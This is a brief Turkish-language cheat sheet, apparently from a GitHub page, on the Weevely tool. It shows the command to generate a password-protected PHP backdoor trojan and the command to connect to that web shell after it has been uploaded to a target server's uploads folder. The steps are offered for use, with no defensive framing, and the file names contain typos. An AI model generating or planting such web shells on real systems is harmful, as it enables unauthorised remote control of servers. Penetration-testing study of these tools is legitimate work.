 # Weevely

#### 1. ```.php``` kullanarak backdoor trojan oluşturmamızı sağlar
#### 2. ```weevely generate 11111 /root/myconnection.pnp``` şifremizi ve trojan'in kaydedileceği konumu yazıyoruz
#### 3. ```weevely http://<IP>/../../uploads/myconneciton.php 11111``` yazarak session içine gireriz ve gezinebiliriz
